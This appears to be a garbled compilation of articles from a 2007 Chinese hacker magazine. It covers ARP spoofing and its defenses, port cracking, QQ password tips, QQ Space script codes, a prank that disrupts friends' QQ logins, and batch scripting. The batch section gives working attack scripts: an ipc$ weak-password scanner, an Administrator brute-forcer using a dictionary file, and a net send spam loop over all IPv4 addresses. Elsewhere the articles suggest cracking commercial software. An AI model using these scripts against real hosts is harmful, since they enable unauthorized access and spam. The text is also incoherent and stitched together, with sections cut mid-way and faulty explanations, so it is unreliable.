由于主机间通信是通过查看 ARP 表来确定目标主机的位置，然后再发出数据，因而是到第1步。ARP 欺骗的原理可以通过一个简单的办法，它就是把局域网中所有主机组作为一个广播，拦截主机发送的广播信息，然后伪装发送消息到目标主机，对方接收后再更新缓存表中记录内容。


## 二、ARP 欺骗的适用场合

### 1、共享式以太网

以太网通常是指数据传输速率达到 100Mbps 以上，采用的网络卡结构是透明的网络，并且符合 IEEE802.3 标准。以太网在企业网、校园网中都可以以太风，通过共享式以太网来识别，通常是集线器来处理。集线器工作在第一层，即物理层，对于这层，集线器所连的网段是一个广播域，一旦分会多分支，每个时钟，网络中的每台主机都会接收数据，发送给整个网段的数据，对所有主机都能起到作用。于是，ARP 欺骗此类环境中可用。

### 2、交换式以太网

对于交换式以太网我们则采用交换机来连接，交换机工作在第二层，即数据链路层，因此传递的是帧交换的数据结构，也就是说，交换机会把 MAC 地址信息交给交换机，交换机管理的信息通常在交换机端口一个交换一对或一个交换两个字节处理，通过转发交换机的信息，而且可以通过交换机转发到每一台主机，因而在局域网中利用 ARP 欺骗是可行的。

于是 A 就向除本端口以外的所有端口发送一个广播分组，这个广播地址为本地广播，它的地址形式为：255.255.255.255，表示网络中的所有主机都会收到该消息。当发送出去之后，B、C、D 都能收到这个广播分组，同时 B、C、D 都会在各自的 ARP 缓存中，将自己的 IP 和 MAC 地址进行匹配，A 便会在广播中进行侦测，然后它的 IP 和 MAC 地址一旦发生，A 便能在存储在于它的 ARP 缓存中。

在 Windows 下，默认 ARP 缓存中的缓存项存储为 2 分钟，若一个表项在 2 分钟内被使用，则其会延长 2 分钟，直到达到最大值 10 分钟为止，超过 10 分钟后 ARP 表将被刷新，然后发现 ARP 请求重新获得新的目标地址的映射表。ARP 欺骗中就会令 RARP（Reverse ARP，即反向地址解析协议）发挥作用，它的作用就是将 MAC 地址解析为 IP 地址，来获取本机的 IP 地址。


编辑点评：

在我的印象中，有利用 radmin 的、Dame Ware 等远程控制软件进行木马的，VNC 是首次在我心里留下如此印象，也许是发现较早吧，或许其来源并不绝对，所以说这一点，确实大家能写出一篇文章。

【非安全：黑客手册】2007.12 →【菜鸟黑化】

转载请注明地址进行转发，交换机会在内部维护一张容量很大的 MAC 地址表，如果找到则把数据转发过去，如果没有找到，则会将数据广播到网络中的所有主机上，当目标主机回答交换机时，交换机就可以知道到某个 MAC 地址与该数字端口相对应，这个过程就称为“学习”，即一种获得地址映射的手段。如果这里也将失误作为混淆表述成固定的地址，则是利用静态的手段，给定的 MAC 地址表内为本地（本机）地址的数据包在此将会以太网中的监听方式丢弃。这里网络交换机的结构为交换矩阵，每个端口各自独立，不像集线器那样，内部结构为总线结构，由于交换机采用专门的 ASIC（专用集成电路），结构已不像集线器那样为总线局，由此无法采用混杂模式来捕获数据。为了方便管理分析，数据都受到了一套像单视图，建议采用抓取时获取包时，可以将整条网络的数据包全部镜像到一个端口上来，方便管理分析。不过在对于 ARP 协议是无连接、无认证的，局域网中的任何主机都可以随意地发送 ARP 请求包，这些可以看成是 ARP 组包器，也并不会先探测反对被该的机名而内容更新不由 ARP 缓存表，因此 ARP 节点在交换式以太网中内容可见，是不需要工作流的权限。

## 三、ARP 欺骗的方法

- 1. 中间人攻击

中间人攻击也好比一个中介一样，负责交换两端的协商，中间人攻击的原理如图 3。


图 3 中，C 为攻击者，图中甲号表示 A 与 B 之间为中间人位置（Man In The Middle）的角色，C 对 B 发送已经伪造的 ARP 请求包，B 得到这个请求后，A 与 B 之间无法正常通讯，这里 C 在 A 与 B 之间充当了中间人，从而做到了监听转发，之后 C 利用内部的 ARP 地址，当流量通过 C 进行交换。若 C 要攻击 A，则 C 会假冒成主机 B 的 IP 地址，而 MAC 地址则是 C 自己的（注意只 C 自己的）。C 为 IP 地址为 A 的主机，欺骗的是 A 的数据通过 C 到 B 这个路径过程，然后 C 就从 A 将所有数据的请求包信息都拦截后，再将数据发回 B。同样 C 也可以欺骗 B。防护中间人攻击最有效的方法就是数据进行加密，这样 C 无法获得原始数据，当你必须在可交换机上划分 VLAN 来防范。

- 2. 拒绝服务

也以图 3 为例，在图 3 中，C 对主机 A 发送伪造的 ARP 应答报文，并假冒主机 B 的 IP 地址，但这次的 MAC 地址是一个不存在的地址，这样主机 A 收到也就没法会影响的判断是 ARP 缓存表中主机 B 的 IP 地址与 MAC 地址的映射关系，将其主机 A 与主机 B 的网络通信被中断，这在信息安全上称为拒绝服务攻击（DOS, Deny Of Service）。

## 四、ARP 引发的 ARP 挂马与 DNS 劫持

- 1. ARP 挂马

为了方便大家理解，我们也以图来说明，如图 4，终常常碰到 ARP 挂马，黑手上的代码可以利用了防马，为什么用户访问任意目标都会自动地导向木马并执行，就是因为攻击者充当了中间人的角色。在图 4 中，主机 B 为攻击者，外网有很多 WEB 服务器，这里假设没有一台服务器为 Google 的，或者在主机 A 想访问内网的 Google，于是 B 会进行 ARP 欺骗来充当内网中的路由器，这样数据包会先经过 B 再发送到 A，具体过程为：A 在 IE 地址栏中输入 www.google.com 后，此时 B 就是中间人，B 会让这个地址被误解到外网上去。Google 收到请求后会将该日志信息（WEB 页面）返回过去，但是这个页面首先被 B 收到了，因为 B 是中间人，于是 B 可以以这个页面伪造为 Google 的主页，此时 B 会拦截住该地址请求，因而重定向到本机，因此搜索结果就会出现。A 访问 Google 的页面时，会自动下载并执行者 C 制作好的木马，A 直到在这里面去了 Google 的网页，注意这只是对目标网站的内容被篡改的页面，且是由于 B 在对网页上进行 ARP 过滤拦截引起的。

- 2. DNS 劫持

DNS 劫持与 ARP 挂马有相似之处，ARP 劫持是它能在正常访问网页的情况下钩火攻击者的恶意程序并执行，而 DNS 劫持则是用户访问的页面被自动转到下一个页面，这个页面就是攻击者事先制作好的页面，其中可能含有恶意代码或程序。网购以及 4 来说明，DNS 劫持过程为：A 现在想访问外网的 Google，于是 A 在 IE 地址栏中输入 www.google.com，但是这个域名被攻击者 B 劫持了，此时 B 可以让这个数据包地址到外网的地址，也可以让它不出这个地区后再访问它的内容，此时可以把这个过程称之不让它出去，是为了 B 在网页被弄到某个地址，上会发某个网页，因此这是一种类似于 DNS 劫持的过程。其实 B 是在使用物理地址与发送请求页面拦截，但是如果用网页的接收页面返回，A 访问 Google 时会转到自己所控制的页面，所以就造成了 DNS 劫持，而这在这里就是自己订了 WEB 服务器的角色。相同的，使用小域的是黑手文章的强烈所述，意思其实就是之前搜索的请求网址被篡改。

## 五、由 ARP 引发的 ICMP 重定向攻击

ICMP（Internet Control Message Protocol，因特网控制协议），是一种网络层协议，它的作用就是让主机或路由器给对方传输错误和异常情况的报告，ICMP 报告报文有 ICMP 类型报文和 ICMP 请求报文两种，而在 ICMP 差错报文中又有 5 种报文，这里要说的就是类型值为 5 的报文，即“改变路由”报文，又称“重定向”报文，重定向使得路由器将该改变路由报文发送给主机，让主机知道下次该走的更优的路由。简单地说重定向就是通知主机有最优的路由存在。当主机收到重定向消息后，ICMP 重定向攻击就可以实现 ARP 欺骗的效果，但实现起来较为复杂，ICMP 重定向攻击的原理如图 5。


## 六、跨网段的 ARP 欺骗能否实现

关于网络的知识我会在以后给大家详细讲解，这里大家把网络理解成两个区域不同的网络就行了。先看例子后面文章太复杂完全解释。通常我们见到的 ARP 欺骗是在同一个局域网内或同一个网段中进行的，为什么会这样的呢？因为要跨网段，就必须经过路由器或者具有路由功能的网络设备，要记住，路由器是不会直接接收数据包的，如果它们使用了网卡的话，那些硬件单元的 ARP 缓存只能选择同网段的主机，而 A 与 B 交换路由通过的将是路由器本身，而不是路由器的接口。

A 与 B 处于内网 C，C 与 A 处于不同网段内，ARP 欺骗攻击则无法达到效果，在内网中 A 与 B 正在通信，网络的交换机又是无法完成 ARP 欺骗的，C 把数据包引向自己的 ARP 缓存表中，首先会将 A 的 IP 地址变成对方的 IP 地址，这时候数据包的实际路由还是得通过路由器，接着路由器在网络中重新封装时，将 A 以为的 C 的数据包就将发出，因此 C 欺骗 A 的数据包已经发送给 B 了，这样 A 就看到了路由器，便会发送一个数据包到 B，这样就可以在网络中截获，但它没有办法通过 A 发出去。

理论上，ARP 欺骗和 ICMP 重定向攻击相结合，便可完成跨网段的欺骗，尤其是在有一定路由条件下。首先路由器作为发给 A 的欺骗报文，让 A 的路由器告知目的网络为到达被攻击主机的最佳路由。假定这条线路是连接到数据包终点的出口，这个 C 欺骗 A 的主机，A 如果是站在路由器上而不是同网段的主机，那么会通过路由器传递，而不会直接与 B 连接，接着 ICMP 重定向与 ARP 缓存同步，这样 C 就可以收到被 A 发出的 IP 包了，接着 C 就可以对 B 进行数据操作。


上面的方法就算安全行得通，但实际上 A 是不会无条件地接受 ICMP 报文的，作为防止路由器和主机的误操作或恶意使用的防护标志，主机在更改本机路由方向前要先做一些检查，在图 7 中就是主路由器与 A、B 在同一网段、走直连路由，而不是同路由，同时 A 收到一条到主机的情况下，会将分组的目的地 A 的 IP 转换成发送到错误的地址，如果结果相等于 A 的网络地址是不同网段的，由此可知，ARP 网络的欺骗也就无从实现。

## 七、ARP 欺骗攻击的防范

要彻底解决 ARP 欺骗几乎是不可能的，除非开发出某种新的网络协议，毕竟我们能在一定程序上加以预防，就像 DDOS 攻击一样，要完全解决也是不可能的。在企业网络管理中我们通常都是在交换机和路由器上进行操作，我们可以考虑以下一些方法：

- 在主机上静态绑定 MAC，在命令行下用 arp -a 获取 IP 与 MAC 地址映射关系，然后用 arp -s 来扩 IP 来和 MAC 地址进行绑定，这样做故障简单，跟简单的 IP 与 MAC 地址绑定，装开 IP 与 MAC 也要进行绑定，这样攻就可以防住。
- 在交换机上进行绑定，在交换机上启用 ARP 绑定动作，将用户的 IP 与 MAC 地址进行绑定，这样效果很明显，但操作起来也比较复杂。为此我们可以考虑在交换机的端口上启用防范安全性，这样也能起到一定的防范效果，为了方便说明，我们按下图来说，如图 8。


图中，主机 A、B、C 规划到 VLAN1 中，主机 D、E、F 被规划到 VLAN2 中，主机 IP 与 MAC 地址对应该配置。

- 采用 MAC 地址访问控制表（ACL: Access Control List），访问控制列表类似于防火墙中的过滤策略，它可以决定哪些端口之间能够互不相互访问。举个例子，在图 8 中设计 A 只允许访问 B，那么在交换机上执行这条命令：`Switch(config)#access-list 1100 permit 0050.56C0.0010 0000.0000.0000 0050.56C0.3055 0000.0000.0000, 其中 1100 为 ACL 编号`，取值为 1100-1199，permit 表示允许的意思。如果要禁止则用 deny，后面的 A 和 B 的 MAC 地址，连续的 12 个 0 表示忽略对方 A 和 B 两个地址的路径，其他的字符为标志。该命令有用，完整的语法为：`access-list ACL 号 permitid`。该方法要求网络设备支持，且在多设备间统一配置。

```markdown
Switch(config)#mac-address-table static 0050.56C0.0001 vlan 1 interface e1, 配置静态 MAC 地址绑定后，注意这个 MAC 地址是用来绑定的，并且 IP 需要和 MAC 地址实现相关联。这个主机 A 的配置，就是绑定 A 的 IP 和 MAC 相关的。然后可以通过 `Switch(config)#interface f0/1` 进入接口模式，再通过 `Switch(config-if)#switchport port-security` 启用端口安全性。

`Switch(config-if)#switchport port-security maximum 10` 最多只允许 10 台主机连接此端口，若主机超过限制则该端口处于关机状态。

`Switch(config-if)#switchport port-security violation {protect|restrict|shutdown}` 其中 protect 仅仅将进入此接口的包丢弃，restrict 和 protect 一样，不同的是它会产生 SNMP 中断（trap）消息。shutdown 方式则将端口关闭，直到手动恢复才能重新激活。

`Switch(config)#access-list 1100 permit 0050.56C0.0010 0000.0000.0000 0050.56C0.3055 0000.0000.0000`
```

# 意见不到的结果——端口破解

本文可以学习到：

- 了解端口破解
- 懂得如何防范端口破解

## 一、什么是端口破解？

提到破解我们可能会想到很多信息，比如软件破解、邮箱破解、口令破解等，那么什么是端口破解呢？大名鼎鼎的木马程序在现今网络中通过端口进行文件传输的方式，它是利用此方法让此“后门”或“规则”作为“大摇大摆”地进入了这个系统。

可能有的用户会觉得这个案例和端口破解有什么关系。其实端口破解就是针对于端口的最早也是最常见的攻击方法，而不是通过对端口进行暴力破解的攻击，而是利用端口本身在网络中的一些服务来达到控制其目的。

## 二、端口怎样被破解？

### 一、配置黑客字典

黑客在进行端口破解的过程中，字典法攻击是常见的一种方式，它是通过用的字典中找出一段词组，来和要破解的账号密码进行比对，直到破解出所需的密码或是字典文件中的词组全部比对完成，也就是俗称的暴力破解。进行暴力破解，一个好的字典文件是不可缺少的，现在我们就来了解生成一个新的、更加深入的、既有一个较长的词库进行比对的工具。HackerDicBuilder 也是一款非常好用的生成黑客字典工具，它可以根据程序自定义字典或字符生成新的文件。对于上级所设置的防火墙、文件等常见安全的配置一旦被忽略，很容易产生巨大的影响。


HackerDicBuilder 是一款功能十分强大的字典生成工具，它可根据插入图片或模板等方式，自动生成字典文件，并以图片保存。界面中一般会有不同的选项可供选择，使用时需要填写一些必要的信息，例如字典名称、字符集、密码位数、字符组合等。用户可以按照自己的需要设置规则，并生成对应的字典文件。

好吧，讲到这里，您就彻底明白了吧。文章就到这里，希望您从本文学习到了有用的东西，不懂的来 NoHack。

编辑点评：

这是一篇理论性非常强的文章，作者的描述语言很专业，估计很多朋友在想中很难理解除。文章到最后点拨出来主要负面的思维很清楚，所以我们看标题《想不到的结果——端口破解》后就感到大概可以认识，因为文章中对 ARP 协议以及 ARP 攻击有个大概的印象就可以了。《黑客》以新的角度和同样对 ARP 攻击来给新客户讲解，很多日常细节对大家都很有用。


### 三、端口扫描过程

其实好多端口扫描器带有的破解功能，比如国内内名的 X-Scan、流光、X-way，似乎 Windows 主动攻击探测机等，这里我们就使用英文全点的 X-Scan 来进行演示操作。虽然 X-Scan 已经推出了最新的 V3.3 版，但是我仍然需要使用 V2.3 这个老版本。


运行 X-Scan V2.3 后，首先点击工具栏中的“扫描模块”按钮，在弹出的窗口进行操作。首先点击“检测范围”，在“指定 IP 范围”下设置需要扫描的 IP 地址。另外选中“无条件扫描”选项，这样可以在对方主机不响应的情况下继续进行扫描。设置好“端口”选项后，需要选择要扫描的端口，比如 SQL Server、FTP 21 端口等，当然也可以使用常规端口，例如 Radmin 使用的 4489 端口，以及远程桌面使用的 3389 端口等。

## 三、端口破解防范

首先将自己的操作系统更新到最新的版本，比如 Windows XP SP2 或者 Windows Vista 等，这样就可以避免 Windows 2000 中 IPC 连接被利用的漏洞。再对自己的电脑系统进行安全检测，对发现的系统漏洞及时进行修补。

其次，Windows 系统原来就为用户提供了很多的服务，比如远程桌面服务就是其中的一个。其实这些服务中有相当一部分，对于我们个人用户来说不但没有作用，而且在安全方面也存在很大的隐患。接下来打开系统服务管理器，比如共享专家的名称是“Server”，将其由原来的“自动”更改为“已禁用”。然后在“我的电脑”上点击右键选择“属性”，接着在弹出的窗口中选择“远程”选项卡，然后将“远程桌面”的“允许用户远程连接到此计算机”前面的钩去掉即可，如图 6。


再通过右键选择“我的电脑”中的“管理”命令，找到“本地用户和组”下的“用户”项目，即可在右边窗口对当前系统的所有用户进行查看，首先在右侧窗口中通过右键的“新用户”来创建一个新的用户名，将该帐号和你的新用户名提升为管理员权限，然后再在弹出的属性窗口中选中“帐户已停用”选项即可。这样就可以令系统默认账户进行禁止使用，从而防范黑客对其进行的破解操作。

## 四、总结

到此为止，关于端口破解的内容就为大家介绍到这里，实际上端口破解可以理解为对端口对应的网络服务进行破解，这样我们可以利用远程系统打开的端口服务，对系统入侵进行进一步的操作准备。在后面的系列文章中我们将继续围绕密码学、网络安全与黑客入侵防范知识，做更多的讲解。

编辑点评：端口破解只是小型的基础课程，听起来很玄，端口号不变。针对端口的攻击方式还有很多，这也是人们发现的时代，劣点了从而从技术上突破。

最近不久知道了什么问题，密码更改页面出错，打不开。QQ 不能更改密码了，现在好了，这期间再也没有乱弄过。之前很多人都在去查备忘密码了，很多人都可以去换安全密码，或许是拿安全密码给了我的密码，好久不好好用的人、一般好喜欢说我的号码没法了。随着该程序的普及，攻击手段也越来越复杂，泄漏的内容也令人担忧，下面我们来保护好自己的聊天密码。

## 一、时刻警惕“蓄意的谎言”

网络是把双刃剑，问题网页也比一般网页少，我们可以通过网页浏览信息，同样也可以被恶意攻击者利用来获取我们的敏感信息，网络钓鱼就是其中一个很好的例子。面对这样的谎言我们需要做好如下几项：

- 先要识别真假网址，腾讯公司举办活动的地址一般以 `http://xxx.qq.com/xxx`、`http://im.qq.com.chat.com` 之类的形式出现。


# 教你几招 保护好自己的 IM 密码

## 二、跟识别梦机中马了

从 2005 Beta3 版本采用了钩锁键盘输入密码，而现在则使用 nProtect 键盘加密技术，网上出现的盗 QQ 的木马，要想通过键盘记录获取 QQ 账号和密码，首先要屏蔽这类木马键盘监控，重建木马本上都是通过删除 QQ 默认安装目录下的 npkcrypt.sys、npkcrypt.vxd、npkct.dll 三个文件，而删除这三个文件时，你会发现浏览器变为一个小锁，如图 1 所示！删除后如图 2 所示。通过对比，只要发现小锁一面“挂影”了，就能知道我们的中毒了盗木马，从而需要升级或清理正常系统盘，也就会安装 QQ 或可以！


```bat
cacls.exe x:\qq安装目录\npkcrypt.sys /e /t /g everyone:N
cacls.exe x:\qq安装目录\npkcrypt.vxd /e /t /g everyone:N
cacls.exe x:\qq安装目录\npkct.dll /e /t /g everyone:N
```

这样即使中马，因为没有权限也无法删除这三个文件，从而保护自己的账号不被盗走。

## 三、密码忘了丢了我不怕不怕怕了

为了登录时遇到软件的时候方便，很多 IM 软件都设置了自动登录，但是长时间利用自动登录，我们很有可能忘记原来的密码，对于 MSN 的用户来说，大家可以使用 Mess pass，该软件不仅支持 MSN Messenger 而且还支持破解 Google Talk 等 IM 软件的密码。

如果我们的 QQ 密码丢失了，大家首先想到的是密码保护，但是一方面没有密码保护，我们需要通过申诉来找回密码，但是想申诉必须知道我们以前使用了什么密码，被盗盗用前使用的密码，另外还要知道以前 QQ 号码上几个好友的账号，最后，还要知道最早一次上线的时间地点及密码是否可先失去。

如果你的 QQ 好友在现实中没有什么联系，你根本无法获取好友的号码，那么，我们可以通过以下操作。

我们首先运行 QQ 登录修改专家，如图 3 所示，然后单击“浏览”，选择 QQ 的安装目录，这时候“QQ 登录号码”栏里会出现本机登录过的 QQ，如果没有我们可以单击“添加”，然后打开网络，在 QQ 登录号码中，选择你丢失密码的那个号码，单击“修改”，这时候我们打开 QQ 就可以使用那一密 80000 登录了，登录后就可以查看好友的号码了！


有了上面的准备，我们就可以到 http://service.qq.com/psw/mo.shtml?psw_ss.htm 去提交信息进行申诉了！

编辑点评：

作者给我们提供了一个不错的防止木马盗号的方法，实际上 QQ 聊天软件更多的页面，这一定程度上能防止被盗号一部分人，但却更不一定适合你。若是技术还是可以尝试这以清理的方法，究其不是一种防范之心。

# QQ空间刷新花

从本文您可以学到：
- QQ空间刷带有 7 个人参赛娃娃的花的方法
- 利用代码免费刷空间资源

相信大家都看了《黑手》的刷 5 级花的文章了，其实这个 5 级花的代码总会发布出来了，可能某些偶尔的错。正在填坑我带给大家的是带有 7 个人参赛娃娃的花，如图 1，源不在？喜欢的赶快控控吧：`javascript:window.top.space_additem(7,20981,0,0,1,0);`

虽然只有一种，但是梦过过夜。有外一首歌管它《黑手》的刷友早发现，以前在“QQ装扮空间”里面能够摸索到免费物品已经没有了，那么怎么办？空间发展到 4.0，每个免费物品都需要用代码刷的了，今天一些比较实用的代码，希望你喜欢！

先讲一下 QQ 空间代码使用方法：
- 进入你的 QQ 空间。
- 把以下代码放入地址栏（就是长的空间网址），然后回车。
- 看到效果后，点击“自定义”，随便拖动一下空间里的模块，然后保存就 OK 了。（要是不起作用就表示无法修改）

```text
① 免费兑换代码：
圣诞的免费导流：javascript:window.top.space_additem(13,1,100,80,0,0,94);
清爽夏日：javascript:window.top.space_additem(13,4384,0,0,150,70,0);
活泼岁月：javascript:window.top.space_additem(13,5330,0,0,150,700,0);
标题：javascript:window.top.space_additem(13,5150,0,0,150,700,0);
海浪感受：javascript:window.top.space_additem(13,5003,0,0,150,700,0);
绿色花瓣：javascript:window.top.space_additem(13,9144,789,-19,200,600,0);【如图2】
```

```text
② 免费挂放站代码：
blue;javascript:window.top.space_additem(6,676,0,0,200,200,0);
茶色；javascript:window.top.space_additem(6,702,0,0,200,200,0);
水晶年华；javascript:window.top.space_additem(6,703,0,0,200,200,0);
```

```text
③ 免费打场动画代码：
足球世界杯：javascript:window.top.space_additem(14,5242,0,0,0,0,0);
迎面春花；javascript:window.top.space_additem(14,4386,0,1,1,0);
雪夜梦；javascript:window.top.space_additem(14,5002,0,0,1,0);
与众分享：javascript:window.top.space_additem(14,4387,0,0,1,0);
```


# 简简单单教你盗空空间 QQ

从本文您可以学到：简单的盗链空间 QQ


大家只要找到 FID=3D 后面的数字就行了，这里就是 1013196。然后，我们只要返回空间，在自定义里建立 FLASH 模块，在 FLASH 动画地址里输入 http://cp.qzone.qq.com/flash/1013196.swf，然后自己选择保存好的位置；漂亮的空间就诞生了。

编辑点评：这个文章看起来这个多代码，大家要抓住关键。用这种方法虽然不能保证成功，但它的思想是对的，学习性和参考性都有一定价值。


- 免费装饰性组件代码  
`javascript:window.top.space_addItem(2,5875,0,1,1,0);`  
`javascript:window.top.space_addItem(2,5876,0,1,1,0);`  
`javascript:window.top.space_addItem(2,5877,0,1,1,0);`  
`javascript:window.top.space_addItem(2,5878,0,1,1,0);`  
`javascript:window.top.space_addItem(2,5879,0,1,1,0);`  
`javascript:window.top.space_addItem(2,5880,0,1,1,0);`

- 免费皮肤  
海边的海鸥：`javascript:window.top.space_addItem(1,12736,0,80,0,0.123);`  
地震皮肤：`javascript:window.top.space_addItem(1,12736,0,80,0,0.93);`

# QQ 功能模块 到病毒库的异地更新

从本文您可以学到：如何通过子模块来完整程序

本次文章其实是针对 QCC 这几个功能简单介绍，主要是讲通过安装目录，找到相应的文件，再进行替换。本文分为两部分，前半部分讲 QQ 功能模块，后半部分讲病毒库的异地更新。

不少软件在安装时会将相关文件放到固定目录，例如 D:\Program Files\JianMin\Kernel 目录中，找到更新文件后将其复制到别处保存即可。


# QQ另类整人大法

图：天之痕[D.S.T]

从本文你可以学到：

利用 TX 的安全策略整人

不久前在我们暗组的论坛里看到幻觉的一篇名为“QQ2007正式版 BUG”的帖子，看过之后才知道原来不算是 BUG，只是 TX 的一种安全措施（在此先感谢一下幻觉，研究了一下，发现可以加以利用，变成一个整人方法，后果……）

评出一下这份有用的 BUG 吧（其实安全攻防测试）。首先把这段话复制下来：

“QQ 目前所有的业务开通方法列表
QQ 会员 http://vip.qq.com 10QB/月开通
3D 秀 http://3d.qq.com 免费设置保密就有
手机绑定 http://bd.qq.com 按提示操作即可免费绑定
移动 QQ http://mobile.qq.com 中国移动：5.0 元/月
中国联通：4.5 元/月”


QQ 恢复：http://qring.qq.com
QQ 会员免费设置

然后，通过 QQ 发给任何一个好友，会弹出来这样一个对话框，如图 1。然后随机 QQ 就掉线了。重新登录，弹出一个身份证的对话框，如图 2。

输入验证码后，此时依据人品变成网络终结：1-RP 好的，QQ 正常登录，不过以后每次登录都需要输入验证码。2-RP 不好的，QQ 无法登录，要求激活。这是说明一下，之所以说是 RP 问题，是因为测试的时候两种情况都有发生（我私下私信了自己的朋友来测试），甚至还有一种情况是无正当登录，这几天只有要不没事。还有一点，再多次尝试登录，也不能强行登录而导致被盗号的问题，果然很有安全保障。

有点失望，这不是目标一样么，怎么用来整人呀？其实很简单，只要我们先对一个对象进行，然后将上面的文字复制过去，然后点击“新建 QQ 人工向量”，你把这些东西复制下来发送给 QQ，当菜单是这样的友情提醒时，就会弹出一个提示框，把上面的文字复制进去，最后就会发送出去，以前的 QQ 只属于纯图处理，是无法自动载入其他人的图片格式。于是我们发现到了要先把 QQ 重新激活一下，这里我们要给它做一个工具来激活，有时候有虫可以使用防止内置的机器人。

编辑点评：

其实这只是 TX 的一个安全策略，而对我们发觉的这个功能，是一个包含了字符串，TX 公司为你打开了 QQ 里，所可以操作的账号的使用。要知道这种方法其实是几年的操作，新手也可以登录，并且在普通的输入框中，登录时候，点击框中的文字，输入自己的昵称，不分整版也能识别；这样也可让你试试，登录每一个版本的 QQ 登录一下。

# 三步将你的 QQ 的在线状态发布在 QQ 空间

我非常笨

- 首先点击你的 QQ 版面左上方那个小头像，就是修改个人资料那里！
- 再点击右下方的“生成在线状态”，进入网站，会看到很多在线状态图片风格，选择自己喜欢的把鼠标移到图片上，鼠标右键点击属性即可查看图片地址。
- 选入自己的空间，点空间的“自定义”、“新建模块”、“图片模块”，点击更多设置，把图片地址粘贴在“图片地址”里，再把我提供的“代码”粘在图片链接里，选择无边框，其他就不用设置了，然后输入验证码保存就 OK 啦！

My December  
This is my december; this is my time, of the year; This is my december, this is all so clear... I think Park of this My December…

更新病毒库了，成功！

其它的杀毒软件的升级策略设计，不知是否也一样。

# 小菜学 BAT 高级篇

本篇文件可分可以学习：
- for 命令的几个用法
- if 命令的使用以及 for 命令的嵌套
- start 命令的用法
- 外部参数的用法

Hello，大家好，又是我（众读者呼：How old are you? ...）PS：用中式英语讲明白了。好了，文是我。上次不是有预告吗，高级篇就要开始了，终终！“Ok Let’s go”“Go, Go, Go!”一阵枪声后，terrorist.win

在高级篇里，我们主要学习和区分几个命令，本篇中的实例主要是对命令做操作。这个命令对具体运作我有很多我还不会的地方，不过我知道有些命令对命令不太熟悉，尤其不在我当前电脑设置用户设置等系统路径时在旁边的窗口里尝试一下它。

用法1：for /L %a in (start,step,end) do command，比如 for /L %a in (1,1,5) do ping 60.63.64.%a，这样就会对 60.63.64.61—60.63.64.65 这样的 IP 批量执行命令。

用法2：for /F %a in (filename) do command，它会把 filename 这个文件打开，并把文件的每一行内容传给 %a，然后执行命令。

用法3：for /R path %a in (set) do command，把 path 目录下的所有符合 set 的文件绝对路径赋值给 %a，并执行命令。

其实 for 命令还有很多方式，如 /d、/f、/r 等，想了解的话请自己去查阅帮助。这里大家只需要掌握前面的几个用法即可。

## 例1 广告服务

大家都知道某名昭著的 Messenger 服务吧，只要它开着，别人就可以用 net send 命令向这台计算机发送消息。我们何不做一个广告发送机？

```bat
新建 ad1.bat，写入以下内容：

for /l %%a in (1,1,254) do for /l %%b in (1,1,254) do for /l %%c in (1,1,254) do for /l %%d in (1,1,254) do net send %%a.%%b.%%c.%%d %1%%a.%%b.%%c.%%d %2
```

Ad1.bat 空格 + 域发送方发到广告会向互联网上所有的机器发送。虽然发不也不会特别得掉。发送成功的话，还会把这 IP 写入 ad.log，如图 1。


图 1 所示内容表明，脚本会根据 IP 逐步发送消息，成功率取决于网络连通性。

## 例2 ipc$ 弱口令扫描器

这个东西在局域网里比较好用，在外网基本扫不到什么主机。新建 scan_ipc.bat：

```bat
for /f %%s in ('1 2 3 ...') do net use \\192.168.%%s.%%i.%%j\ipc$ /user:Administrator new_password >> scan.log || echo \192.168.%%s.%%i.%%j\ipc$ && echo
```

运行后会扫描局域网中主机，并尝试用空连接和 Administrator.new 等账号进行登录，把成功的连接计入 scan.log，如图 2。


## 例3 ipc$ 账号暴力破解

暴力破解也是人很重的一个重要方法，由其是当其他常规方法都无法奏效时，新建 bgopo.bat：

```bat
for /f %%s in (number.dic) do net use \\%1\ipc$ %%s /user:Administrator && echo %1%a.%s scan.log
```

用法：在 cmd 下输入 bgop.bat b.ahp，用户名字这里使用的是 Administrator。首先要把破解好的字典文件名为 number.dic 放在该文件夹下，它会以很快的速度去破解，成功率比较高。


## 例4 ping 攻击器加强版

废话不多说了，新建 ping.bat，代码如下：## 黑客之魂，黑站就是这么轻松

从本文中你可以学到：

1. 使用 Acunetix 挖掘 Web 漏洞
2. 利用 PHP 漏洞分析器发现漏洞
3. 使用适当的文本编辑工具去挖掘本地漏洞

经常看《黑手》大牛们挖 0day，菜鸟们一定非常羡慕吧，呵呵，其实挖漏洞的原理都很简单。接下来的挖洞分析工具篇与手工篇，相信一会儿 N 多程序都能不上菜鸟的车了！

## 一、Acunetix 网站漏洞扫描器

Acunetix 需要 Microsoft .NET Framework v2 支持，如果没有安装，可以在狗狗搜索 www.gougou.com 下载安装。Acunetix 安装后是有功能限制的，只要把压缩包中的 crackacunetix.exe 破解程序放到 Acunetix 的安装目录运行就可以破解了。

菜鸟们一定好奇了，Acunetix 有啥好玩呢？和安象 x-scan 类似，它针对 WEB 扫描 PHP、ASP、ASPX 等脚本语言的 SQL 注入漏洞、XSS 跨站脚本漏洞、Cookie 泄漏，当然，还检测非法代码分析、端口扫描漏洞呢。它加入了 Google hacking 数据库，更棒的是其除了扫描整个站点的文件存储功能，还方便使用快速收集整站的敏感信息。不废话，尝鲜 Acunetix 的功能吧，Let’s go!


Acunetix 向导运行完了后，便开始自动扫描了。偶尔碰到有的死机后，一知晓 Acunetix 扫描完了，如果没有终止，直接点击程序右边的“stop”按钮即可。

好了，《小菜学 BAT》三步曲已经全部写完了，希望大家喜欢，并能从中学到点东西！在这里我要感谢您耐心看完此文章，因为这篇文章对初学者的帮助很大，PS.我初二了，大家把我写进教与您肯定看管量。

> 【文章中涉及到的站点均在此重绘中清空，请勿模仿】

编辑点评：

这里这篇小系列的文章就先写一般了，总给人一种笨笨无奈的感觉。把处理器的目标也带在了你的这些攻击，它还有很多内容，可以在论坛、学姐的各个阶段的使用，你就可以照着写成君主。文章里的内容，作者对于命令行和编辑器还是蛮完全的了 for /下相的论块，不大可能有其他内容了，感谢 zlr 这类文章。


## 二、Php 漏洞分析器

顾名思义就是分析 PHP 脚本漏洞，可以寻找 PHP 远程文件包含漏洞（Remote File Include）、SQL 注入漏洞（SQL Injection）、远程命令执行（Remote Command Execution）等。

## 三、文本编辑工具：Notepad++、EditPlus

